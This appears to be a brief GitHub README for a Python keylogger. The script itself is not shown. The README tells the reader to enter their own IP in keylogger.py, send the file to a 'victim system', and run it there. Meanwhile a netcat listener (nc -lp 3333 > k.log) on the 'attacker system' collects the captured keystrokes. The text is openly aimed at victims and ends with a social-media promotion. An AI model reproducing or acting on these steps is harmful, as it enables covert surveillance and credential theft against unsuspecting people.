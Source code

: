 # KeyLogger
vi keylogger.py
then 
Type your ip in the keylogger.py file
after typeing the ip send this file to you victim system
after sending the file. Run this cmd to The attacker system   nc -lp 3333 > k.log
and in Victim system run the file  python keylogger.py


follow for more --

instagram -- __mr.__f__
